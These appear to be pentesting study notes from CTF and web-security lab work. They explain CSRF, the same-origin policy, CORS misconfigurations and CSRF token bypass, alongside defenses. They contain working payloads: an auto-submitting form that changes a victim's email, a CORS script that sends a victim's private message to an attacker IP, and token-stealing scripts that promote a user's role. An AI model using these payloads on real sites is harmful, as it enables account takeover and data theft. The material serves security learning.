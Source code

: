 ```yaml
---
description: Cross-site request forgery (also known as CSRF).
---
```


# CSRF

Cross-Site Request Forgery (CSRF) is an attack that forces an end user to execute unwanted actions on a web application. It can cause a victim to carry out a payload and unintended action, like changing email address or changing passwords. Tree conditions needed:

* A relevevant action: Like changen email or password
* Cookie-based sessions
* No unpredictable request parameters like value of a password.

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=mczen@user.com
```

Based on this we can create a simple web page or use [https://csrf-poc-generator.vercel.app/](https://csrf-poc-generator.vercel.app/)

```html
<html>
	<head>
		<title>CSRF-2</title>
	</head>
	<body>
		<form action="https://0a2200ad04963c7981de6661005c00c2.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="zen@evil.com">
		</form>

		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>
```

This wil change the user's emailaddress and can be delivered like

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

#### Common flaws in CSRT tokens

* Apps might validate tokens in POST requests but not in GET requests.
* Remove parameter and value, could bypass validation.
* Sometimes tokens not checked to which users its linked. Accepts any valid token.

### <mark style="color:yellow;">CSRF Defenses</mark>

* CSRF token: A unique random value included in requests to prevent unauthorized changes. It must unpredictable, checked by backend and not sent in cookies.
* HTTP Headers: Webapps can check HTTP Headers like `Origin` or `Referer` to block cross origin requests.
* SameSite cookies: Cookie settings that controls whether cookies are sent with cross-origin requests, helping to block CSRF attacks. `Samesite=lax` us used most and cookie is sent wwith safe cross-origin request.

### <mark style="color:yellow;">Same-Origin Policy</mark>

The Same-Origin policy is a security mechanism implemented in web browsers to prevent cross-origin access to websites. In particular, JavaScript code running on one origin cannot access a different origin.

**origin** = **scheme** (`http` or `https`) + **host** (`example.com`) + **port** (`:80`, `:443`, etc.). So all parts have to match with SOP.

### <mark style="color:yellow;">CORS</mark>

**CORS (Cross-Origin Resource Sharing)** lets a server allow **exceptions** to the Same-Origin Policy by using special response headers.

<table><thead><tr><th width="285">Header</th><th>Purpose</th></tr></thead><tbody><tr><td><code>Access-Control-Allow-Origin</code></td><td>Which origins can access the resource</td></tr><tr><td><code>Access-Control-Allow-Methods</code></td><td>Which HTTP methods are allowed (e.g. GET, POST)</td></tr><tr><td><code>Access-Control-Allow-Headers</code></td><td>Which request headers are allowed</td></tr></tbody></table>

**1. Simple Requests**

* For basic requests (like GET, HEAD, or POST with simple content types), the browser sends the request as usual.
* If the server allows it, it puts a special header in its response:\
  `Access-Control-Allow-Origin: http://mysite.com`
* If this header matches the site making the request, the browser lets the page see the response.

**2. Preflighted Requests**

* If your request uses special methods (like PUT or DELETE) or custom headers (like Content-Type: application/json), the browser sends a **preflight request** first.
* This is an OPTIONS request to the server asking, “Can I make this request?”
* The server must reply with headers saying which methods, headers, and origins are allowed.

### <mark style="color:yellow;">CORS Misconfigurations</mark>

CORS misconfigurations can make web applications vulnerable. If a server sets the wrong CORS headers, attackers may get access to sensitive data or perform actions as a logged-in user.

{% hint style="info" %}
Look for instances where the web application sets the `Access-Control-Allow-Origin` header to the value received in the `Origin` header. Then send a fake value int he Origin header and see if it is contained in the `Access-Control-Allow-Origin` .
{% endhint %}

:heavy\_check\_mark: **Most attacks** require that the `Access-Control-Allow-Credentials` header is set to `true`

<figure><img src="broken-reference" alt=""><figcaption><p>Here we find Access-Control-Allow-Credentials set to true.</p></figcaption></figure>

The `Access-Control-Allow-Origin` header contains the origin, which is allowed to bypass the Same-Origin policy.

Sometimes a website lets users login from different subdomains but is not checking the url's properly so that the example.com would allow sub.example.com but malsite.example.com.

```javascript
// we can send this to get private-message component.
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://cors-misconfigs.htb/profile.php', true);
    xhr.withCredentials = true;
    xhr.onload = () => {
	  var doc = new DOMParser().parseFromString(xhr.response, 'text/html');
	  var msg = encodeURIComponent(doc.getElementById('private-message').innerHTML);
      location = 'https://10.10.14.157:4443/log?data=' + btoa(msg);
    };
    xhr.send();
</script>
```

### <mark style="color:yellow;">Bypass CSRF tokens</mark>

If CORS settings are bad we can get around the Same-Origin Policy and read data from other sites. We can request a CSRF token and to things as that user like chaning roles. But the sites cookie must have:

* `SameSite=None` (allows sending cookies across sites)
* `Secure` (cookie only sent over HTTPS)

Look if the value in GET request in Origin header is reflected. This CORS misconfiguration can be exploited with the `SameSite=None` cookie attribute.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

This POST request shows a csrf\_token, so to perform role promotion in this case we need to get a valid CSRF token of the victim.

```javascript
<script>
	// GET CSRF token
	var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://bypassing-csrftokens.htb/profile.php', false);
    xhr.withCredentials = true;
    xhr.send();
    var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
	var csrftoken = encodeURIComponent(doc.getElementById('csrf').value);

	// do CSRF
    var csrf_req = new XMLHttpRequest();
    var params = `promote=htb-stdnt&csrf=${csrftoken}`;
    csrf_req.open('POST', 'https://bypassing-csrftokens.htb/profile.php', false);
	csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    csrf_req.withCredentials = true;
    csrf_req.send(params);
</script>
```

#### null value

If finding a null value at the Access-Control-Allow-Origin we can `null` origin for any cross-origin request.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Get an administrator CSRF token using XSS. Payload must be in a sandboxed iframe to supply a null origin.

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	// GET CSRF token
	var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://bypassing-csrftokens.htb/profile.php', false);
    xhr.withCredentials = true;
    xhr.send();
    var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
	var csrftoken = encodeURIComponent(doc.getElementById('csrf_token').value);

	// do CSRF
    var csrf_req = new XMLHttpRequest();
    var params = `promote=htb-stdnt&csrf_token=${csrftoken}`;
    csrf_req.open('POST', 'https://bypassing-csrftokens.htb/profile.php', false);
	csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    csrf_req.withCredentials = true;
    csrf_req.send(params);
</script>"></iframe>
```
